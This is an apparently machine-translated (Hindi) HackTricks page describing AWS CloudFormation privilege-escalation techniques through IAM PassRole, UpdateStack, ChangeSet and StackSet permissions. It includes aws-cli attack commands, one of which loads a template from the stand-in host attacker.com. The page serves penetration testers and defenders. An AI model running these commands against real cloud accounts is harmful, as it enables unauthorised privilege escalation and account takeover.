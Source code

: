 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

cloudformation के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

इन अनुमतियों के साथ एक हमलावर **privileges को बढ़ा सकता है** एक **CloudFormation stack** को एक कस्टम टेम्पलेट के साथ तैयार करके, जो उनके सर्वर पर होस्ट किया गया है, ताकि **निर्धारित भूमिका के अनुमतियों के तहत क्रियाएँ निष्पादित की जा सकें:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
इस पृष्ठ पर आपके पास एक **शोषण उदाहरण** है जिसमें अतिरिक्त अनुमति **`cloudformation:DescribeStacks`** है:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**संभावित प्रभाव:** निर्दिष्ट क्लाउडफॉर्मेशन सेवा भूमिका के लिए प्रिवेस्क।

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

इस मामले में आप एक **मौजूदा क्लाउडफॉर्मेशन स्टैक** का दुरुपयोग कर सकते हैं ताकि इसे अपडेट किया जा सके और पिछले परिदृश्य की तरह विशेषाधिकार बढ़ाए जा सकें:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `UpdateStack` अनुमति देने** के लिए किया जा सकता है और हमले को अंजाम दिया जा सकता है।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिका में प्रिवेस्क।

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

यदि आपके पास यह अनुमति है लेकिन **कोई `iam:PassRole` नहीं है**, तो आप अभी भी **स्टैक्स को अपडेट** कर सकते हैं और **IAM भूमिकाओं का दुरुपयोग कर सकते हैं जो पहले से जुड़ी हुई हैं**। शोषण उदाहरण के लिए पिछले अनुभाग की जांच करें (बस अपडेट में कोई भूमिका न बताएं)।

`cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `UpdateStack` अनुमति देने** के लिए किया जा सकता है और हमले को अंजाम दिया जा सकता है।

**संभावित प्रभाव:** पहले से जुड़ी क्लाउडफॉर्मेशन सेवा भूमिका में प्रिवेस्क।

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

एक हमलावर जिसके पास **भूमिका पास करने और एक ChangeSet बनाने और निष्पादित करने की अनुमति है** वह **एक नया क्लाउडफॉर्मेशन स्टैक बना/अपडेट कर सकता है और क्लाउडफॉर्मेशन सेवा भूमिकाओं का दुरुपयोग कर सकता है** जैसे कि CreateStack या UpdateStack के साथ।

निम्नलिखित शोषण **एक भिन्नता है**[ **CreateStack एक**](./#iam-passrole-cloudformation-createstack) का जो **ChangeSet अनुमतियों** का उपयोग करके एक स्टैक बनाने के लिए है।
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
The `cloudformation:SetStackPolicy` अनुमति का उपयोग **अपने लिए `ChangeSet` अनुमतियाँ देने** के लिए किया जा सकता है और हमले को अंजाम दिया जा सकता है।

**संभावित प्रभाव:** cloudformation सेवा भूमिकाओं के लिए प्रिवेस्क।

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

यह पिछले तरीके की तरह है बिना **IAM भूमिकाएँ** पास किए, इसलिए आप बस **पहले से जुड़े हुए का दुरुपयोग** कर सकते हैं, बस पैरामीटर को संशोधित करें:
```
--change-set-type UPDATE
```
**संभावित प्रभाव:** पहले से जुड़े क्लाउडफॉर्मेशन सेवा भूमिका के लिए प्रिवेस्क।

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

एक हमलावर इन अनुमतियों का दुरुपयोग करके स्टैकसेट बनाने/अपडेट करने के लिए मनमाने क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग कर सकता है।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिकाओं के लिए प्रिवेस्क।

### `cloudformation:UpdateStackSet`

एक हमलावर इस अनुमति का दुरुपयोग बिना passRole अनुमति के स्टैकसेट को अपडेट करने के लिए कर सकता है ताकि जुड़े क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग किया जा सके।

**संभावित प्रभाव:** जुड़े क्लाउडफॉर्मेशन भूमिकाओं के लिए प्रिवेस्क।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
